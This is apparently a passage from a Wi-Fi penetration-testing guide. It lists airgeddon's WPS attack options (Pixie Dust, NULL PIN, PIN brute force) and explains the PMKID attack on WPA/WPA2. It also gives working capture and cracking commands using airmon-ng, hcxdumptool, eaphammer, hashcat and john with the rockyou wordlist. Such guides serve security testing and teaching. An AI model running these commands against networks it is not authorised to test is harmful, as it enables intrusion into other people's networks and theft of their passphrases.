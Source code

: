 Airgeddon

All the proposed WPS attacks can be easily performed using airgeddon.

    5 and 6 lets you try your custom PIN (if you have any)

    7 and 8 perform the Pixie Dust attack

    13 allows you to test the NULL PIN

    11 and 12 will recollect the PINs related to the selected AP from available databases and generate possible PINs using: ComputePIN, EasyBox and optionally Arcadyan (recommended, why not?)

    9 and 10 will test every possible PIN

WEP

So broken and disappeared that I am not going to talk about it. Just know that airgeddon have a WEP option called "All-in-One" to attack this kind of protection. More tools offer similar options.
WPA/WPA2 PSK
PMKID

In 2018 hashcat authors disclosed a new type of attack which not only relies on one single packet, but it doesn’t require any clients to be connected to our target AP or, if clients are connected, it doesn’t require us to send deauth frames to them, there’s no interaction between the attacker and client stations, but just between the attacker and the AP, interaction which, if the router is vulnerable, is almost immediate!

It turns out that a lot of modern routers append an optional field at the end of the first EAPOL frame sent by the AP itself when someone is associating, the so called Robust Security Network, which includes something called PMKID

As explained in the original post, the PMKID is derived by using data which is known to us:

PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)

Since the “PMK Name” string is constant, we know both the BSSID of the AP and the station and the PMK is the same one obtained from a full 4-way handshake, this is all hashcat needs in order to crack the PSK and recover the passphrase!
Description obtained from here.

To gather this information and bruteforce locally the password you can do:

airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1

#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1

The PMKIDs captured will be shown in the console and also saved inside /tmp/attack.pcap
Now, convert the capture to hashcat/john format and crack it:

hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

Please note the the format of a correct hash contains 4 parts, like: 4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7*566f6461666f6e65436f6e6e6563743034383131343838
If yours only contains 3 parts, then, it is invalid (the PMKID capture wasn't valid).
